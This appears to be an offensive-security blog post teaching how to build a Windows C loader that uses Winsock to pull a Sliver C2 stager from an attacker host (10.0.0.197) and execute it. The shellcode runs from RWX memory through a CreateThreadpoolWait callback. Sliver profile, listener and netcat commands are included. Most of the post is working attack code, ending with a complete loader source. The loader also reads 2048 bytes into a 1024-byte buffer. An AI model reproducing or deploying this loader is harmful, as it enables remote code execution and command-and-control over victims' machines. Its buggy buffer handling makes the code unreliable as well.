

In this post we're going to create a C program that will download a stager and inject it in the process to establish communication with the attacker machine.<!-- end -->
## Basics of Stager payloads

Before starting we need to understand what stager payloads are. If you've used Metasploit Framework then you might've seen that word being thrown around but never really understood what it means. 

In simple terms a stager is reponsible for establishing commmunication with the attacker's machine and downloading and executing a larger payload called the Stage. You may ask why we don't simply download the Stage directly instead of having our stager download the stage. Well the reality is you won't always have the luxury of having unlimited memory space. If you've done challenging Buffer Overflow labs then you would've encountered limited buffer space to inject your payload. In cases like that you'd need a small payload to ultimately grab your large payload and do the damage.

## Sliver C&C Framework

I ran into Sliver while searching for different open source C&C frameworks to try out. We'll be using it to generate a stager and then establish communication with our target machine. Although it's still in beta mode, it has some impressive feautures you can check it out <a href="https://github.com/BishopFox/sliver">here</a>.

First we need to generate a profile for our shellcode:

```javascript
new-profile --profile-name mrd0x-shellcode --mtls 10.0.0.197:443 --format shellcode
```

*   <b>--profile-name mrd0x-shellcode</b> : Specifies the name of the generated profile
*   <b>--mtls 10.0.0.197:443</b> : Specifies the use of Mutual-TLS and the listening IP and Port
*   <b>--format shellcode</b> : The format of the payload that will be used by this profile

Next we're going to start our listener and link the profile created in the previous step:

```javascript
stage-listener --url tcp://10.0.0.197:80 --profile mrd0x-shellcode
```


Finally we'll use the following command to generate our stager file:

```javascript
generate stager --lhost 10.0.0.197 --lport 80
```


Now all we need to do is use Netcat to listen for any incoming connections and send the stager file upon connecting:

```javascript
nc -lvp 8080 < STAGER_FILE
```

## Using the WinSock2 Library to Download Our Stager

If you're not familiar with the <a href="https://docs.microsoft.com/en-us/windows/win32/winsock/windows-sockets-start-page-2">WinSock2 Library</a> then here's Microsoft's definition for you:

>Windows Sockets 2 (Winsock) enables programmers to create advanced Internet, intranet, and other network-capable applications to transmit application data across the wire, independent of the network protocol being used.

We need to download our stager that we created earlier and to simplify the process we can break down the download process like this:

1.  Initializing Winsock
2.  Creating a socket
3.  Connecting to the server
4.  Receiving data 

I won't go in depth about what each of the arguments mean for each function since they're are all readily available in the documentation.

### Initializing Winsock

We'll use the WSAStartup() function to initialize Winsock:

```javascript
WSADATA wsa;
//Initialize Winsock
if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0)
	{
		printf("Error initializing Winsock\n");
		exit(1);
	}
```

### Creating a Socket

The socket() function is used to create a socket. The sockaddr_in struct is used to define some required information such as the target IP address and port number:

```javascript
SOCKET s;
struct sockaddr_in cleanServer;
if((s = socket(AF_INET , SOCK_STREAM , 0 )) == INVALID_SOCKET)
	{
		printf("Could not create socket : %d" , WSAGetLastError());
	}

//Set the required members for the sockaddr_in struct
InetPtonA(AF_INET, "10.0.0.197", &cleanServer.sin_addr.s_addr); //Target IP address
cleanServer.sin_family = AF_INET; //IPv4 Protocol
cleanServer.sin_port = htons(8080); //Target port
```

### Connecting to The Server

The connect() function is used to connect to the server:

```javascript

if (connect(s, (struct sockaddr*)&cleanServer, sizeof(cleanServer)) < 0)
{
    printf("Error establishing connection with server\n");
    exit(1);
}
```

### Receiving Data

To receive that data we use the recv() function and store the response into the variable data:

```javascript
#define PAYLOAD_SIZE 1024
unsigned char data[PAYLOAD_SIZE];

if ((response_size = recv(s, (char*)data, 2048, 0)) == SOCKET_ERROR) {
		printf("Receving data failed\n");
	}
printf("%s\n", data);
printf("size: %d\n", sizeof(data));

data[response_size];

closesocket(s);
```

## Injecting and Executing Stager

Now that we have our stager downloaded into a variable we need to execute it somehow. There are many ways of doing so, I thought of trying out a technique I recently came across on <a href="https://www.ired.team/">ired.team</a>.

This technique executes shellcode by invoking a callback function passed to CreateThreadpoolWait. I'm not going to explain it in depth since it was explained well <a href="https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-via-createthreadpoolwait">here</a>.

```javascript
//Create a signaled event
HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);
//Allocate RWX memory
LPVOID scodeAddress = VirtualAlloc(NULL, sizeof(data), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
//Copy the stager into the allocated memory
RtlMoveMemory(scodeAddress, data, sizeof(data));
//Creates a new wait object and set our buffer as the callback function
PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)scodeAddress, NULL, NULL);
//Wait for our event to become signaled
SetThreadpoolWait(threadPoolWait, event, NULL);
WaitForSingleObject(event, INFINITE);
```

## PoC



## Code

```javascript
#include "Ws2tcpip.h" //Must include this
#include <winsock2.h> //This MUST come before Windows.h to avoid collision with Winsock.h
#include <stdio.h>
#include <Windows.h>


#pragma comment(lib,"ws2_32.lib")
#define PAYLOAD_SIZE 1024

//Function Declaration
void DownloadImplant();

//Global variable payload
unsigned char data[PAYLOAD_SIZE];


int main() {
	
	PVOID alloc;
	DWORD oldProtect = 0;
	HANDLE cr;
	HANDLE hProcess;

	DownloadImplant();

	HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);
	LPVOID scodeAddress = VirtualAlloc(NULL, sizeof(data), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	RtlMoveMemory(scodeAddress, data, sizeof(data));

	PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)scodeAddress, NULL, NULL);
	SetThreadpoolWait(threadPoolWait, event, NULL);
	WaitForSingleObject(event, INFINITE);

	return 0;

}


void DownloadImplant() {
	
	WSADATA wsa;
	SOCKET s;
	struct sockaddr_in cleanServer;
	int response_size;

	//Initialize Winsock
	if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0)
	{
		printf("Error initializing Winsock\n");
		exit(1);
	}

	//Create socket
	if ((s = socket(AF_INET, SOCK_STREAM, 0)) == INVALID_SOCKET)
	{
		printf("Could not create socket : %d\n", WSAGetLastError());
		exit(1);
	}

	//cleanServer.sin_addr.s_addr = inet_addr("10.0.0.197"); //DEPRECATED
	InetPtonA(AF_INET, "10.0.0.197", &cleanServer.sin_addr.s_addr);
	cleanServer.sin_family = AF_INET; //IPv4 Protocol
	cleanServer.sin_port = htons(8080); //Port number

	//If no error occurs, connect returns zero. Otherwise, it returns
	//SOCKET_ERROR, and a specific error code can be retrieved by calling //WSAGetLastError().
	if (connect(s, (struct sockaddr*)&cleanServer, sizeof(cleanServer)) < 0)
	{
		printf("Error establishing connection with server\n");
		 exit(1);
	}

	if ((response_size = recv(s, (char*)data, 2048, 0)) == SOCKET_ERROR) {
		printf("Receving data failed\n");
	}
	printf("%s\n", data);
	printf("size: %d\n", sizeof(data));

	data[response_size];

	closesocket(s);

}
```
